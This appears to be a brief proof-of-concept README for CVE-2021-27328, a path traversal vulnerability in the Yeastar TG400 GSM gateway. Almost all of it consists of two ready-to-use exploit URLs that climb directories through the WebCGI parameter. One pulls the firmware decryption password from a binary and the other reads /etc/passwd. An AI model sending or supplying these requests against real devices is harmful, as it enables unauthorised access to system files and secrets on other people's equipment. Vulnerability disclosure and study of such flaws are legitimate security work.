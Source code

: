 # Path Traversal on Yeastar TG400 GSM Gateway - 91.3.0.3




This is a Proof of Concept for CVE-2021-27328

## Example
* to get  firmware decrypting password

```
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
```
* to get /etc/paswd

```
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

